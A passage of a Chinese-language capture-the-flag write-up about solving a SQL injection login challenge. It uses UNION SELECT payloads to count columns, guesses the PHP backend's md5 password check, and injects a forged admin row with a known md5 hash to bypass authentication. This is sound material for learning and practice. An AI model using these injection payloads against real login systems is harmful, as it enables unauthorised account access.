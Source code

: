 然后base64 解码得到：

```
select * from user where username = '$name' 
```

应该是 提示我们 要从 username 入手

我们查看下  他有几个字段

```
admin' union select 1,2,3#
admin' union select 1,2,3,4# 
```

可以得到 是3个字段<br>
我们猜测字段名是

```
ip username password 
```

然后我们通过下面语句

```
admin' union select 1,'admin',3# 
```

//即把admin 放到第二个位置 不报错<br>
得到第二个字段就是我们的username字段<br>
然后 题目提示了"md5",于是我们便可以去猜测 它的后端是怎么写的:

```
<?php
$row;
$pass=$_POST['pw'];
if($row['username']=='admin'){
    if($row['password']==md5($pass)){
        echo $flag;
    }else{
        echo "wrong pass!";
    }
}else{
    echo "wrong user!";
} 
```

就是 我们的sql语句执行时，
passsword字段中的内容要==md5(我们密码栏输入的password)
然后我们便随便找个 密码 就123吧：

```
明文：123
md5 : 202cb962ac59075b964b07152d234b70 
```

于是我们便构造这样的payload：

```
username栏：' union select 1,'admin','202cb962ac59075b964b07152d234b70'#
password栏：123 
```
